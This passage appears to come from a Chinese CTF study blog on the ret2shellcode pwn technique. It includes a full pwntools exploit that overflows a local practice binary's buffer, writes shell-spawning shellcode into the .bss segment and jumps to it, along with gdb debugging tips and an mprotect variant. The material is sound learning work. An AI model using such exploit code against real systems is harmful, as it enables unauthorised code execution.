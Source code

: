 我们就控制程序执行 shellcode，思路就是

- 输入 shellcode

- 控制程序执行 bss 段处的 shellcode

EXP

```python
from pwn import *

context.log_level = 'debug'

sh = process('./ret2shellcode')

shellcode = asm(shellcraft.sh())
buf2_addr = 0x804A080

raw_input()
sh.sendline(shellcode.ljust(112, b'Z') + p32(buf2_addr))

sh.interactive()
```

然而在我的虚拟机上怎么都跑不了，我就纳闷了，各种调试，然而gdb也不熟，于是学到一个方法就是

- 发 payload 前 raw_input()
- 再 gdb attach 上去
- 在关键位置下断点再 c
- 随后在python启动的脚本那按回车取消堵塞

就可以愉快的调试了，然而这题的原因是我的高版本ubuntu导致 bss 段不能执行，低版本可以（eeee说是内核保护机制）

![image-20230626164353309](PWN/image-20230626164353309.png)





#### mprotect

程序开了NX保护，审计主函数发现用了 mprotect 将 buff 所在的 .bss 段设了 7 权限，于是可以 ret2shellcode
